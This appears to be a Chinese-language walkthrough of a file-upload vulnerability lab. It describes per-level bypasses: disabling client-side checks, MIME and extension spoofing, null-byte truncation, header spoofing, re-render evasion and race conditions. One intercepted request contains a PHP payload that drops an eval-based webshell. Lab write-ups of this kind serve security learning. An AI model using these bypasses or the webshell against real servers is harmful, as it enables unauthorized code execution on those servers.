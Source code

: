 Less-1

```javascript
function checkFile() {
    var file = document.getElementsByName(' upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

file变量用来获取name标签为’upload_file’数组的第一个元素的值，，然后判断该变量如果为空则返回一个提示框。，又定义了一个用来获取上传文件类型的变量，截取了后缀名。然后如果上传了未定义的后缀名，那么将会报错，也就是实现了对我们上传文件的后缀名进行了验证。

- 删除前端代码

element编辑代码不会生效，因为chrome内存里加载原始代码，需要刷新重新加载，但是刷新会丢失对代码的修改。

因此两种方式：1.F12F1禁用js   2.override修改

- 上传图片马，bp改后缀变成php





Less-2

mime验证

- 上传图片马，bp修改文件类型
- 上传php马，bp修改content-type
- application/octet-stream----->image/jpeg





Less-3

不能上传php文件，因此尝试绕过

大小写未果，尝试特殊后缀解析，成功

php3,ph4,phpml



Less-4

bp抓包改成php. .

Less-5

同Less-4



Less-6

大小写



Less-7-3

Less-8-4

Less 9/10 same



Less-11

只检查一次-双写绕过



Less-12

上传一个jpg格式图片马，bp抓包，在upload/后面加上2.php%00

why???

### 00截断的原理

1.只能绕过前端验证（上传到服务器以后后缀还是php，还是会被过滤）

2.要想绕过后端，需要两个条件之一

- 路径拼接像上图的代码一样，直接使用的 $file_name这个文件名，而不是 $file_ext和其他什么东西来拼成一个文件名字，这时文件名中还是包含截断字符的，路径拼好之后可以被截断成想要的.php

```
$img_path=UPLOAD_PATH.'/'.$file_name;
```

- 文件的上传路径可控

可以修改路径拼接的path时，比如抓到的包中存在**path: uploads/**，就可以直接把路径构造成**uploads/xxx.php%00**，先构造一个存在截断字符的后缀“等着”真正的文件名，或者后缀名，截断之后的结果就是最终上传的结果。

eg bp上传抓包如下

```
------WebKitFormBoundaryRxKWcIParxysaZO8
Content-Disposition: form-data; name="save_path"

../upload/          //here！！！！！！！！！！！
------WebKitFormBoundaryRxKWcIParxysaZO8
Content-Disposition: form-data; name="upload_file"; filename="1.gif"
Content-Type: image/gif

<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["shell"])?>');?>
------WebKitFormBoundaryRxKWcIParxysaZO8
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryRxKWcIParxysaZO8--

```



Less-13

POST 00截断

由于%00不会自动解码，因此使用16进制添加

先upload/2.php_

然后hex模式找到2.php_（空格就是20）

20修改成00就行了



Less-14

文件头检测两位，根据源码文件头加上GIF98A就可以上传了



LESS-16

二次渲染

上传的源文件图片被imagecreatefrom(gif|png|jpg)()处理（取出原本的内容并且创建一个新文件，并且重命名）

使用16进制编辑器查看原本和上传处理之后的gif内容发现服务器上的文件末尾的php代码被图片渲染删除。

- gif渲染绕过--渲染前后没有变化的区域写入php木马

LESS-17

条件竞争，代码审计

```php
$is_upload = false;$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;
 
    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }}
```

服务器先保存上传的文件，然后将文件的后缀名同白名单对比，如果是jpg、png、gif中的一种，就将文件进行重命名。如果不符合的话，unlink()函数就会删除该文件。

存在逻辑缺陷：

保存->执行代码->删除上传木马

因此在删除前访问：

burp多线程发包，然后不断浏览器访问（删除之前访问），能够短暂的成功

Less-18

白名单不允许上传php--->使用图片马

文件上传之后文件被重命名----->重命名之前访问文件--burp多线程发包

图片马---配合文件包含，apache解析漏洞

Less-19

00截断

muma.php+png

把+二进制2b改成00截断即可